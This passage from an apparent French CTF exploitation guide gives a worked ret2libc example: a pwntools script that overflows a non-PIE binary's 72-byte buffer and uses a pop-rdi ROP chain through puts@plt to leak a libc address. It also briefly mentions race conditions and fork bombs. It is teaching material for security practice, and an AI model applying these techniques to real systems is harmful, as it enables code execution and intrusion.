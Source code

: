 ## 9.7. Race conditions / TOCTOU / fork bombs (rare en CTF)
- Utiliser `fork()` ou threads pour exploiter temps ; pwntools n’aide pas directement mais script contrôle timing.

---

# 10. Exemple complet (mini-solution) — overflow x86_64 non PIE, NX, pas de canary

**Contexte** : `vuln` prend une ligne, a un overflow de 72 octets jusqu’à RIP. `system` est dans libc et `puts@got` contient une adresse libc; on peut appeler `puts(puts@got)` pour leak.

`readelf` montre non-PIE → on connaît `plt['puts']` et `got['puts']`.

### Exploit (explication étape-par-étape)
1. Find offset = 72 (ex: via `cyclic`).
2. Build ROP: `pop rdi; puts@got; puts@plt; main` → leak puts
3. Receive leak, calcul libc base.
4. ROP: `pop rdi; bin_sh_addr; system` (system from libc), or call system directly.

### Code
```python
#!/usr/bin/env python3
from pwn import *

exe = ELF('./vuln')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')  # adapt to remote libc if known

context.binary = exe
context.log_level = 'info'

def start():
    if args.REMOTE:
        return remote('challs.example.com', 1337)
    elif args.GDB:
        return gdb.debug([exe.path], gdbscript='b main\nc')
    else:
        return process([exe.path])

p = start()

# parameters (found via analysis)
offset = 72

# gadgets
rop = ROP(exe)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]

# Stage 1: leak puts
payload = flat(
    b'A'*offset,
    p64(pop_rdi),
    p64(exe.got['puts']),
    p64(exe.plt['puts']),
    p64(exe.symbols['main'])
)

p.sendline(payload)
p.recvline()                  # maybe prompt
leak = p.recvline().strip()   # read the leaked address line
puts_leak = u64(leak.ljust(8, b'\x00'))
log.info(f"puts leak: {hex(puts_leak)}")
```